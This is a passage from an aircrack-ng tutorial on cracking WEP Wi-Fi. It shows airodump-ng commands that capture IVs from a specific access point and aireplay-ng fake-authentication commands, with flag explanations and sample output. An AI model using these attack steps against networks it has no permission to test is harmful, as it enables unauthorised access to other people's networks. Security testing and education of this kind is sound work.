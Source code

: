 The last line is important. Ideally it should say 100% or a very high percentage. If it is low then you are too far away from the AP or too close. If it is zero then injection is not working and you need to patch your drivers or use different drivers.

See the injection test for more details.
Step 3 - Start airodump-ng to capture the IVs

The purpose of this step is to capture the IVs generated. This step starts airodump-ng to capture the IVs from the specific access point.

Open another console session to capture the generated IVs. Then enter:

 airodump-ng -c 9 --bssid 00:14:6C:7E:40:80 -w output ath0

Where:

    -c 9 is the channel for the wireless network
    --bssid 00:14:6C:7E:40:80 is the access point MAC address. This eliminate extraneous traffic.
    -w capture is file name prefix for the file which will contain the IVs.
    ath0 is the interface name.

While the injection is taking place (later), the screen will look similar to this:

 CH  9 ][ Elapsed: 8 mins ][ 2007-03-21 19:25 
                                                                                                              
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB  ENC  CIPHER AUTH ESSID
                                                                                                            
 00:14:6C:7E:40:80   42 100     5240   178307  338   9  54  WEP  WEP         teddy                           
                                                                                                            
 BSSID              STATION            PWR  Lost  Packets  Probes                                             
                                                                                                            
 00:14:6C:7E:40:80  00:0F:B5:88:AC:82   42     0   183782  

Step 4 - Use aireplay-ng to do a fake authentication with the access point

In order for an access point to accept a packet, the source MAC address must already be associated. If the source MAC address you are injecting is not associated then the AP ignores the packet and sends out a “DeAuthentication” packet in cleartext. In this state, no new IVs are created because the AP is ignoring all the injected packets.

The lack of association with the access point is the single biggest reason why injection fails. Remember the golden rule: The MAC you use for injection must be associated with the AP by either using fake authentication or using a MAC from an already-associated client.

To associate with an access point, use fake authentication:

 aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 ath0

Where:

    -1 means fake authentication
    0 reassociation timing in seconds
    -e teddy is the wireless network name
    -a 00:14:6C:7E:40:80 is the access point MAC address
    -h 00:0F:B5:88:AC:82 is our card MAC address
    ath0 is the wireless interface name

Success looks like:

18:18:20  Sending Authentication Request
18:18:20  Authentication successful
18:18:20  Sending Association Request
18:18:20  Association successful :-)
